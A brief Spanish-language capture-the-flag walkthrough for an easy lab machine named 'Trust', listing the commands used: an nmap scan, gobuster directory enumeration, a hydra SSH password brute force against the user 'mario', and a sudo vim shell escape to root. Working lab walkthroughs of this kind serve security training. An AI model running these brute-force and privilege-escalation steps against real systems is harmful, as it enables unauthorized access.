 Maquina: Trust

Autor: El Pinguino de Mario 

Dificultad: Muy Facil


ping 172.17.0.2 -c 1

sudo nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN puertos

sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u 'http://172.17.0.2/' -x .php,.sh,.py,.txt

buscamos en el archivo encontrado y descubrimos el nombre de un usuario
utilizamos hydra para conseguir la contraseña
hydra -l mario -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2

entramos por ssh con la contraseña encontrada
ssh mario@172.17.0.2

sudo -l
descubrimos que podemos ejecutar el comando vim
sudo -u root /usr/bin/vim
:!/bin/bash
whoami
